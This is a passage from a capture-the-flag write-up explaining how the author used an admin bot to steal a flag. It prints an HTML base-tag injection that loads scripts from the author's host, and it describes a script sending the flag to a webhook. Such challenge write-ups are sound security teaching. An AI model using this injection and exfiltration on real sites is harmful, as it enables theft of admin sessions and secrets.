 In the script, I make a `GET` request to the location of the flag. If I am able to get the flag, I will send it to my webhook. If not, I will just redirect to the home page.

The url for the website is derived based on the admin bot script

```python

async def visit(user_id, admin_token):
    url = f'http://web:8080/profile/{user_id}'
    ...
    await page.setCookie({'name': 'admin_token', 'value': admin_token, 'url': 'http://web:8080', 'httpOnly': True, 'sameSite': 'Strict'})
    ...

```

TLDR: This admin script asks the bot to visit `web:8080` and set the cookie `admin_token` to the value of `admin_token`. This means that the bot will visit `web:8080/profile/{user_id}` with the admin cookie set.

```yaml
---
web:
  container_name: web
  build:
    context: .
    dockerfile: Dockerfile.web
  environment:
    - FLAG=EPFL{REDACTED}
  depends_on:
    - redis
  ports:
    - "8080:8080"
```

In docker, we can reference the hostname of a container by using their container name. The admin bot visits `web:8080` as that is the configuration set in the `docker-compose.yml` file as shown above. So in this case, my script prompts a get request to `web:8080/flag` instead of the full url.

After that the request is attached as a query parameter to the base url of my webhook site and the page was subsequently redirected to it.

The github pages is available at [payload.jh123x.com](http://payload.jh123x.com/). It was time to inject my base and see the result on [webhook.site](https://webhook.site/).

The payload that I used for the base injection is shown below and the github link upload is hosted at that url. This payload was only injected into the lab field.

This payload will work if you inject it into either of the fields as both of them are combined together to form the description in the title tag.

```html
</title><base href="http://payload.jh123x.com/" />
```

The `</title>` closes the title tag and the `<base>` tag is the payload. The `href` attribute is the base url that the website will use to import from.
